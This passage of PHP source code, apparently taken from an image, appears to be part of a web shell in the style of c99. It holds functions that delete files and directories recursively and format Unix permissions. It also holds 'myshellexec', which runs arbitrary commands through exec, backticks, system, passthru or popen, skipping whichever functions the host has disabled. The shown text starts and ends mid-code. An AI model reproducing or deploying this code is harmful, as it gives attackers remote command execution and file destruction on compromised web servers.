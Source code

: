  rmdir($d); 
 return !is_dir($d); 
} 
} 
if (!function_exists("fs_rmobj")) 
{ 
function fs_rmobj($o) 
{ 
 $o = str_replace("\\",DIRECTORY_SEPARATOR,$o); 
 if (is_dir($o)) 
 { 
  if (substr($o,-1) != DIRECTORY_SEPARATOR) {$o .= DIRECTORY_SEPARATOR;} 
  return fs_rmdir($o); 
 } 
 elseif (is_file($o)) {return unlink($o);} 
 else {return FALSE;} 
} 
} 
if (!function_exists("myshellexec")) 
{ 
function myshellexec($cmd) 
{ 
 global $disablefunc; 
 $result = ""; 
 if (!empty($cmd)) 
 { 
  if (is_callable("exec") and !in_array("exec",$disablefunc)) {exec($cmd,$result); $result = join("\n",$result);} 
  elseif (($result = `$cmd`) !== FALSE) {} 
  elseif (is_callable("system") and !in_array("system",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); system($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;} 
  elseif (is_callable("passthru") and !in_array("passthru",$disablefunc)) {$v = @ob_get_contents(); @ob_clean(); passthru($cmd); $result = @ob_get_contents(); @ob_clean(); echo $v;} 
  elseif (is_resource($fp = popen($cmd,"r"))) 
  { 
   $result = ""; 
   while(!feof($fp)) {$result .= fread($fp,1024);} 
   pclose($fp); 
  } 
 } 
 return $result; 
} 
} 
if (!function_exists("tabsort")) {function tabsort($a,$b) {global $v; return strnatcmp($a[$v], $b[$v]);}} 
if (!function_exists("view_perms")) 
{ 
function view_perms($mode) 
{ 
 if (($mode & 0xC000) === 0xC000) {$type = "s";} 
 elseif (($mode & 0x4000) === 0x4000) {$type = "d";} 
 elseif (($mode & 0xA000) === 0xA000) {$type = "l";} 
 elseif (($mode & 0x8000) === 0x8000) {$type = "-";} 
 elseif (($mode & 0x6000) === 0x6000) {$type = "b";} 
 elseif (($mode & 0x2000) === 0x2000) {$type = "c";} 
 elseif (($mode & 0x1000) === 0x1000) {$type = "p";} 
 else {$type = "?";} 
 $owner["read"] = ($mode & 00400)?"r":"-"; 
 $owner["write"] = ($mode & 00200)?"w":"-"; 
 $owner["execute"] = ($mode & 00100)?"x":"-"; 
 $group["read"] = ($mode & 00040)?"r":"-"; 
 $group["write"] = ($mode & 00020)?"w":"-"; 
 $group["execute"] = ($mode & 00010)?"x":"-"; 
 $world["read"] = ($mode & 00004)?"r":"-"; 